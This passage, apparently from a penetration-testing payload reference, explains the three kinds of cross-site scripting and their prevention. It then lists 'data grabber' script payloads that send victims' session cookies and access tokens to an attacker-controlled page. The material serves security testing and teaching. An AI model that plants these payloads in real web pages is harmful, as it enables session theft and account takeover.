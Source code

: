 Cross-Site Scripting (XSS) is a type of computer security vulnerability typically found in web applications. XSS allows attackers to inject malicious code into a website, which is then executed in the browser of anyone who visits the site. This can allow attackers to steal sensitive information, such as user login credentials, or to perform other malicious actions.

There are 3 main types of XSS attacks:

- **Reflected XSS**: In a reflected XSS attack, the malicious code is embedded in a link that is sent to the victim. When the victim clicks on the link, the code is executed in their browser. For example, an attacker could create a link that contains malicious JavaScript, and send it to the victim in an email. When the victim clicks on the link, the JavaScript code is executed in their browser, allowing the attacker to perform various actions, such as stealing their login credentials.
    
- **Stored XSS**: In a stored XSS attack, the malicious code is stored on the server, and is executed every time the vulnerable page is accessed. For example, an attacker could inject malicious code into a comment on a blog post. When other users view the blog post, the malicious code is executed in their browsers, allowing the attacker to perform various actions.
    
- **DOM-based XSS**: is a type of XSS attack that occurs when a vulnerable web application modifies the DOM (Document Object Model) in the user's browser. This can happen, for example, when a user input is used to update the page's HTML or JavaScript code in some way. In a DOM-based XSS attack, the malicious code is not sent to the server, but is instead executed directly in the user's browser. This can make it difficult to detect and prevent these types of attacks, because the server does not have any record of the malicious code.
    

To prevent XSS attacks, it is important to properly validate and sanitize user input. This means ensuring that all input meets the necessary criteria, and removing any potentially dangerous characters or code. It is also important to escape special characters in user input before rendering it in the browser, to prevent the browser from interpreting it as code.

## Proof of Concept

[](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#proof-of-concept)

When exploiting an XSS vulnerability, it’s more effective to demonstrate a complete exploitation scenario that could lead to account takeover or sensitive data exfiltration. Instead of simply reporting an XSS with an alert payload, aim to capture valuable data, such as payment information, personal identifiable information (PII), session cookies, or credentials.

### Data Grabber

[](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#data-grabber)

Obtains the administrator cookie or sensitive access token, the following payload will send it to a controlled page.

```html
<script>document.location='http://localhost/XSS/grabber.php?c='+document.cookie</script>
<script>document.location='http://localhost/XSS/grabber.php?c='+localStorage.getItem('access_token')</script>
<script>new Image().src="http://localhost/cookie.php?c="+document.cookie;</script>
<script>new Image().src="http://localhost/cookie.php?c="+localStorage.getItem('access_token');</script>
```
